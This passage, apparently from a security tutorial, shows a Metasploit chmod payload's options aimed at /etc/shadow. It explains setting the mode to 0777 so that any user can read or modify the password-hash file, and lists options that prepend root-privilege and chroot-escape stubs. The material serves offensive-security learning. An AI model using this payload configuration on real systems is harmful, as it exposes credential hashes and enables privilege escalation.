 ```shell

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
    Runs chmod on specified file with specified mode



Advanced options for payload/linux/x86/chmod:
=========================

    Name                Current Setting  Required  Description
    ----                ---------------  --------  -----------
    AppendExit          false            no        Append a stub that executes the exit(0) system call
    PrependChrootBreak  false            no        Prepend a stub that will break out of a chroot (includes setreuid to root)
    PrependFork         false            no        Prepend a stub that starts the payload in its own process via fork
    PrependSetgid       false            no        Prepend a stub that executes the setgid(0) system call
    PrependSetregid     false            no        Prepend a stub that executes the setregid(0, 0) system call
    PrependSetresgid    false            no        Prepend a stub that executes the setresgid(0, 0, 0) system call
    PrependSetresuid    false            no        Prepend a stub that executes the setresuid(0, 0, 0) system call
    PrependSetreuid     false            no        Prepend a stub that executes the setreuid(0, 0) system call
    PrependSetuid       false            no        Prepend a stub that executes the setuid(0) system call
    VERBOSE             false            no        Enable detailed status messages
    WORKSPACE                            no        Specify the workspace for this module

Evasion options for payload/linux/x86/chmod:
=========================

    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
```

The option that we change is the following: `MODE`. We want it to be `0777` instead of `0666`. The targeted `FILE` is `/etc/shadow`. By default, `/etc/shadow` has permissions `0640` in octal. That means that the owner can read and write to the file and any member that belongs to the group can read the file. By changing the permissions to `0777` it means that anyone can read, write or modify that file.
